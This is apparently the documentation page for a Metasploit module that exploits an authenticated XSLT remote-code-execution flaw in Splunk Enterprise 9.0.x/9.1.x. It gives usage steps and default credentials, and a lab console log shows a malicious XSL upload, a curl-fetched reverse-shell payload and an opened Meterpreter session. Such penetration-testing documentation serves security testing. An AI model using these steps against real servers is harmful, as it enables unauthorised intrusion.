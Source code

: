 ## Vulnerable Application

This Metasploit module exploits a Remote Code Execution (RCE) vulnerability in Splunk Enterprise.
The vulnerability affects versions 9.0.x prior to 9.0.7 and 9.1.x before 9.1.2.
The exploit takes advantage of a flaw in the XSLT transformation functionality of Splunk Enterprise
and requires valid credentials to be executed successfully, with the default credentials often being admin:changeme.

## Verification Steps
1. **Start Metasploit**: Launch `msfconsole` in your Metasploit framework.
2. **Select the Module**: Use the module with the command `use exploit/unix/http/splunk_xslt_authenticated_rce`.
3. **Disable AutoCheck**: Optionally, you can disable the automatic vulnerability check with `set AutoCheck false`.
4. **Set RHOSTS**: Define the target host (e.g., `set rhosts [target_ip_or_hostname]`).
5. **Set Credentials**: Provide valid Splunk credentials (username and password).
6. **Execute the Exploit**: Use the `exploit` command to run the exploit.

## Options
- **USERNAME**: The username for authentication.
- **PASSWORD**: The password for authentication.

## Scenarios
```
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(unix/http/splunk_xslt_authenticated_rce) > options

Module options (exploit/unix/http/splunk_xslt_authenticated_rce):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD  changeme         yes       Password for Splunk
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT     8000             yes       The target port (TCP)
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   USERNAME  admin            yes       Username for Splunk
   VHOST                      no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      IOTkAvNNbkS      no        Name to use on remote system when storing payload; cannot contain spaces.
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               192.168.1.5      yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(unix/http/splunk_xslt_authenticated_rce) > set rhosts chocapikk.lab
rhosts => chocapikk.lab
msf6 exploit(unix/http/splunk_xslt_authenticated_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.5:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Successfully authenticated on the Splunk instance
[+] The target appears to be vulnerable. Exploitable version found: 9.1.1
[+] Successfully authenticated on the Splunk instance
[*] Extracting CSRF token from cookies
[+] CSRF token successfully extracted: 14569371447995353491
[+] Malicious file uploaded successfully
[*] Sending job search request to /en-US/splunkd/__raw/servicesNS/admin/search/search/jobs?output_mode=json
[*] Triggering XSLT transformation at /en-US/api/search/jobs/1701186108.149/results?xsl=/opt/splunk/var/run/splunk/dispatch/1701186108.148/shell.xsl
[+] XSLT transformation triggered successfully
[*] Executing reverse shell command at /en-US/splunkd/__raw/servicesNS/admin/search/search/jobs
[+] Reverse shell command executed successfully
[*] Sending stage (3045380 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (192.168.1.5:4444 -> 172.17.0.2:39296) at 2023-11-28 16:41:49 +0100

meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Red Hat Enterprise Linux 8 (Linux 6.4.10-060410-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

### Exploitation Process
1. **Authentication**: The module authenticates using provided credentials.
2. **CSRF Token Extraction**: Extracts a CSRF token from the Splunk server for subsequent requests.
3. **Malicious File Upload**: Uploads a malicious XSL file to the server.
4. **Triggering XSLT Transformation**: Initiates an XSLT transformation to execute the payload.
5. **Executing Payload**: Executes the payload, resulting in a reverse shell or similar access.

### Expected Results
Upon successful exploitation, the attacker gains remote code execution capabilities on the target Splunk server,
usually as the user running the Splunk service.

### Important Notes
- This exploit requires valid credentials for successful execution.
